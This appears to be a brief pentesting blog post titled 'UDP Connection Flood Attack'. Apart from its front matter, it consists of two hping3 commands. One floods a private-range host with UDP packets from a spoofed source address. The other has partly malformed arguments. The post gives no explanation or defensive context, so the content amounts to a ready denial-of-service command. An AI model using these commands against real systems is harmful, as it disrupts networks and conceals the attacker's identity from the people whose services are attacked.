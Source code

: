 ```yaml
---
layout: post
title: UDP Connection Flood Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: UDP FLOOD
fullview: false
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 --udp -s 53 --keep -p 68 --flood 192.168.xx.xx
$hping3 -i u1000 -c 4 -p -2 53 192.168.xx.xx
{% endhighlight %}
